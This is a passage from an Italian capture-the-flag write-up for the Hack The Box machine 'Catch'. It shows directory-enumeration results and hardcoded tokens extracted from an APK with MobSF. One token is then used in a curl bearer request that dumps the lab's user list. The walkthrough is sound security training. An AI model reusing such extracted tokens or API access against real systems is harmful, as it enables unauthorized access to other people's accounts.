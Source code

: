 ```shell
/media                (Status: 301) [Size: 177] [--> /media/]
/messages             (Status: 401) [Size: 12]               
/robots.txt           (Status: 200) [Size: 25]               
/users                (Status: 401) [Size: 12]               
                                                             
===============================================================
2022/07/13 06:27:30 Finished
===============================================================
```

Andando però su *c* ci dice che non siamo autorizzati...

Utilizzando [MobSF](https://mobsf.github.io/Mobile-Security-Framework-MobSF/) analizziamo l'apk e nella sezione *Hardcoded Secret* troviamo dei token:

<p align="center">
  <img src="Images/MSFout.png" />
</p>

```
"gitea_token" : "b87bfb6345ae72ed5ecdcee05bcb34c83806fbd0"
"lets_chat_token" : "NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ=="
"slack_token" : "xoxp-23984754863-2348975623103"
```

Utilizziamo quindi il token trovato per autenticarci per capire cosa ci restuisce */users*: `curl -X GET "http://catch.htb:5000/users/" -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ=="`

```json
[
  {
    "id": "61b86aead984e2451036eb16",
    "firstName": "Administrator",
    "lastName": "NA",
    "username": "admin",
    "displayName": "Admin",
    "avatar": "e2b5310ec47bba317c5f1b5889e96f04",
    "openRooms": [
      "61b86b28d984e2451036eb17",
      "61b86b3fd984e2451036eb18",
      "61b8708efe190b466d476bfb"
    ]
  },
  {
    "id": "61b86dbdfe190b466d476bf0",
    "firstName": "John",
    "lastName": "Smith",
    "username": "john",
    "displayName": "John",
    "avatar": "f5504305b704452bba9c94e228f271c4",
    "openRooms": [
      "61b86b3fd984e2451036eb18",
      "61b86b28d984e2451036eb17"
    ]
  },
  {
    "id": "61b86e40fe190b466d476bf2",
    "firstName": "Will",
    "lastName": "Robinson",
```